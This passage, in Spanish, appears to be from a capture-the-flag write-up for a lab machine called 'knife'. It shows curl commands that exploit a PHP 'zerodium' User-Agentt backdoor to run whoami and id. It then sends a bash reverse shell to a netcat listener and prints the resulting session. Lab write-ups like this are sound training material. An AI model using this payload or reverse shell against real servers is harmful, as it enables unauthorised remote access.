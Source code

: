 * Utiliza el parámetro **-H** para introducir la cabecera **User-Agent** en **curl**, justo como viene en el Exploit y escribe el comando **whoami** entre comillas simples:

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('whoami');" | html2text
james
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO
*
***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```

* Ahora probemos con el comando **id**:

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO
*
***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```
Tenemos un resultado exitoso, ahora vamos a obtener la shell.

* Abre una **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

* Ocupa el mismo comando de **curl**, pero introduce nuestra **Reverse Shell** de confianza en **bash**, debemos escapar las comillas dobles o si no estaría interpretando otra cosa:
```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/Tu_IP/443 0>&1\"');" | html2text
```

* Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IṔ] from (UNKNOWN) [10.10.10.242] 39480
bash: cannot set terminal process group (1020): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
james@knife:/$ id
id
uid=1000(james) gid=1000(james) groups=1000(james)
james@knife:/$
```
